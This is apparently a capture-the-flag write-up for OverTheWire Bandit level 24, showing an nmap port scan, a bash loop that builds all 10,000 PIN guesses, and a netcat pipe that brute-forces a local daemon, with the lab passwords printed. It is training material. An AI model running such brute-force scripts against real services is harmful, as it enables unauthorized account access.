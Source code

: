 # Bandit Level 24 → Level 25

## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

##Solution
Brute Force attack is a cryptographic hack. Also known as an Exhaustive Search, it relies on calculating and submitting every possible password combination with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.

```                                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -p 2220 bandit24@bandit.labs.overthewire.org
```

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

```
bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

Linux bandit.otw.local 5.4.8 x86_64 GNU/Linux
```
      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org
```

Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames.
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with
  easily guessable or short names will be periodically deleted!

  Please play nice:

    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS!
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * gef (https://github.com/hugsy/gef) in /usr/local/gef/
    * pwndbg (https://github.com/pwndbg/pwndbg) in /usr/local/pwndbg/
    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

```
bandit24@bandit:~$ nmap -p- localhost                             #to check if localhost is listening at 30002
                                                                  #you can specify -p- to scan ports from 1 through 65535
Starting Nmap 7.40 ( https://nmap.org ) at 2022-02-11 10:11 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00026s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
113/tcp   open  ident
1234/tcp  open  hotline
30000/tcp open  ndmps
30001/tcp open  pago-services1
30002/tcp open  pago-services2                                    #the localhost is listening at 30002
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.53 seconds
```
### Note1: In the challenge it is told that along with the password for bandit24, a 4 digit passcode (obtained using brute-force) should be produced to the localhost through port 30002. So write a script to append the 4 digit passcode with the bandit24 password. This script is written in the file basefile.sh and the final password appended with passcode is redirected to the file combinations.txt.

```
bandit24@bandit:~$ mkdir /tmp/dirbandit24                            #create a directory dirbandit24 under temp

bandit24@bandit:~$ cd /tmp/dirbandit24                               #navigate to dirbandit24

bandit24@bandit:/tmp/dirbandit24$ vim basefile.sh                    #create and open a file named basefile.sh using vim
                                                                     #press i for insert mode in vim
                                                                     #type the below script in it
                                                                     #!/bin/bash
                                                                     #for i in {0000..9999};
                                                                     #    do
                                                                     #        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt
                                                                     #    done
    
                                                                     #press Esc to get into command mode
                                                                     #run :wq to save and close the vim


bandit24@bandit:/tmp/dirbandit24$ cat basefile.sh                    #read the created file to verify its contents 
#!/bin/bash

for i in {0000..9999};                                                        #generate 0000 to 9999, each digit in each iteration                                                                     
    do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> combinations.txt        #append the generated passcode with bandit24 password and redirect it to the file combinations.txt in each iteration
    done
    
bandit24@bandit:/tmp/dirbandit24$ chmod +x basefile.sh                 #provide execute permission for basefile.sh

bandit24@bandit:/tmp/dirbandit24$ ./basefile.sh                        #execute the file basefile.sh

bandit24@bandit:/tmp/dirbandit24$ head -n 5 combinations.txt           #to see the first 5 entries of combinations.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
```
### Note2: Send the contents of the file to localhost at port 30002, which inturn will produce the password to the next level when the correct passcode is received. This output is redirected to result.txt file.
```
bandit24@bandit:/tmp/dirbandit24$ cat combinations.txt | nc localhost 30002 >> result.txt   

bandit24@bandit:/tmp/dirbandit24$ sort result.txt | uniq -u            #since there is only one passcode that can provide the password, sort and find the unique output

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

bandit24@bandit:/tmp/dirbandit24$ rm -rf /tmp/dirbandit24              #delete the created directory

bandit24@bandit:/tmp/dirbandit24$ exit                                 #logout of bandit.labs.overthewire.org
logout
Connection to bandit.labs.overthewire.org closed.
```                  
#### vim text editor
```
vim            -> Open vim
vim <fileName> -> Open file using vim or create and open the file with vim
i              -> Switch to insert mode & Enter some text
Esc            -> Switch back to command mode
:w             -> Save changes to file
:q             -> Quit Vim
```
